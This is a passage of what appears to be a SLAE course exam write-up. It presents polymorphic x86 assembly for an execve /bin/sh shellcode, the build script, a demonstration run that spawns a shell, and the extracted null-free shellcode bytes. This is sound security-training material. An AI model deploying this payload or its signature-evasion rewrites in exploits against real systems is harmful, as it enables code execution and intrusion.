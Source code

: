 ```nasm
        push eax                        ; push eax onto the stack // added instruction
        push byte 0xb                   ; push 0xb onto the stack // changed the method
        pop eax                         ; pop eax off the stack // added instruction
        mov ecx, edx                    ; move edx into ecx // changed the register value
        mov ebx, esp                    ; move esp into ebx // changed the order
        push byte 0x1                   ; push 0x1 onto the stack // added instruction
        pop esi                         ; pop esi off the stack // added instruction
        int 0x80                        ; call the interrupt to execute the execve syscall, /bin/sh shell
```

The Assembly code is compiled by assembling with Nasm, and linking with the following bash script whilst outputting an executable binary:

```bash
osboxes@osboxes:~/Downloads/SLAE$ cat compile.sh
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -o $1 $1.o

echo '[+] Done!'
```

The Assembly code compiled as an executable binary:

```bash
osboxes@osboxes:~/Downloads/SLAE$ ./compile.sh execve_poly
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
```

The compiled binary is executed:

```bash
osboxes@osboxes:~/Downloads/SLAE$ ./execve_poly 
$ id
uid=1000(osboxes) gid=1000(osboxes) groups=1000(osboxes),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ 
```

Objdump is used to extract the shellcode from the Execve shell in hex format (Null free):


```bash
osboxes@osboxes:~/Downloads/SLAE$ objdump -d ./execve_poly|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g' 
"\x31\xd2\x52\xb8\xb7\xd8\x3e\x46\x05\x78\x56\x34\x22\x50\xb8\xde\xc0\xad\xde\x2d\xaf\x5e\x44\x70\x50\x6a\x0b\x58\x89\xd1\x89\xe3\x6a\x01\x5e\xcd\x80"
```


[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment6
[execve-shellstorm]: http://shell-storm.org/shellcode/files/shellcode-811.php
[reversetcp-shellstorm]: http://shell-storm.org/shellcode/files/shellcode-849.php